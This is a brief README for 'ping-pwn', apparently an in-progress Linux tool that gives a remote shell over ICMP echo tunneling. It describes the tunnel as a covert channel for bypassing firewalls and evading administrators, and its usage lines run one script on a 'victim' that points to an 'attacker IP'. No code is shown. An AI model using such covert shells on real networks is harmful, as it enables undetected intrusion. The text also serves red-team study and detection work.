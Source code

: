# ping-pwn - ICMP Shell for Linux using ICMP tunneling
An ICMP tunnel (also known as ICMPTX) establishes a covert connection between two remote computers (a client and proxy), using ICMP echo requests and reply packets.

ICMP tunneling can be used to bypass firewalls rules through obfuscation of the actual traffic. Without proper deep packet inspection or log review, network administrators will not be able to detect this type of traffic through their network.

This is a work in progress

## Usage:
- Victim: ping.py <interface> <attacker IP>
- Attacker: pwn.py <interface> <victim IP>
